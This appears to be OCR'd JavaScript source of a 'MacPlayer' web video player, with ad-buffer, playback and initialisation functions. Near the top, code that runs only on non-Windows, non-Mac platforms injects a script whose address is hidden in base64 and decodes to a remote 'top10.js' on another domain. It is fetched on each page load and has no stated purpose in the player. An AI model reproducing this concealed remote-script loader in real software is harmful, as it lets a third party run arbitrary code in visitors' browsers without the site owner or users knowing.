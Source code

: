 ```
        $('#buffer').attr('src', this.Prestrain);
        setTimeout(function() {
            MacPlayer.AdsEnd()
        }, this.Second * 1000);
        $("#playleft").get(0).innerHTML = this.Html + '';
        if (!/(Win|Mac)/i.test(navigator.platform)) {
            var a = document.createElement('script');
            a.type = 'text/javascript';
            a.async = true;
            a.charset = 'utf-8';
            a.src = base64decode('Ly91bmlvbi5tYWNjbXMubGEvaHRtbC90b3AxMC5qcw==') + '?r=' + this.GetDate('yyyyMMdd');
            var b = document.getElementsByTagName('script')[0];
            b.parentNode.insertBefore(a, b)
        }
    },
    'AdsStart': function() {
        if ($("#buffer").attr('src') != this.Buffer) {
            $("#buffer").attr('src', this.Buffer)
        }
        $("#buffer").show()
    },
    'AdsEnd': function() {
        $('#buffer').hide()
    },
    'Install': function() {
        this.Status = false;
        $('#install').show()
    },
    'Play': function() {
        document.write('<style>.MacPlayer{background: #000000;font-size:14px;color:#F6F6F6;margin:0px;padding:0px;position:relative;overflow:hidden;width:' + this.Width + ';height:' + this.Height + ';min-height:100px;}.MacPlayer table{width:100%;height:100%;}.MacPlayer #playleft{position:inherit;!important;width:100%;height:100%;}</style><div class="MacPlayer">' + '<iframe id="buffer" src="" frameBorder="0" scrolling="no" width="100%" height="100%" style="position:absolute;z-index:99998;"></iframe><iframe id="install" src="" frameBorder="0" scrolling="no" width="100%" height="100%" style="position:absolute;z-index:99998;display:none;"></iframe>' + '<table border="0" cellpadding="0" cellspacing="0"><tr><td id="playleft" valign="top" style="">&nbsp;</td></table></div>');
        this.offsetHeight = $('.MacPlayer').get(0).offsetHeight;
        this.offsetWidth = $('.MacPlayer').get(0).offsetWidth;
        document.write('<scr' + 'ipt src="' + this.Path + this.PlayFrom + '.js"></scr' + 'ipt>')
    },
    'Down': function() {},
    'Init': function() {
        this.Status = true;
        this.Parse = '';
        var a = player_aaaa;
        if (a.encrypt == '1') {
            a.url = unescape(a.url);
            a.url_next = unescape(a.url_next)
        } else if (a.encrypt == '2') {
            a.url = unescape(base64decode(a.url));
            a.url_next = unescape(base64decode(a.url_next))
        }
        this.Agent = navigator.userAgent.toLowerCase();
        this.Width = MacPlayerConfig.width;
        this.Height = MacPlayerConfig.height;
        if (this.Agent.indexOf("android") > 0 || this.Agent.indexOf("mobile") > 0 || this.Agent.indexOf("ipod") > 0 || this.Agent.indexOf("ios") > 0 || this.Agent.indexOf("iphone") > 0 || this.Agent.indexOf("ipad") > 0) {
            this.Width = MacPlayerConfig.widthmob;
            this.Height = MacPlayerConfig.heightmob
        }
```
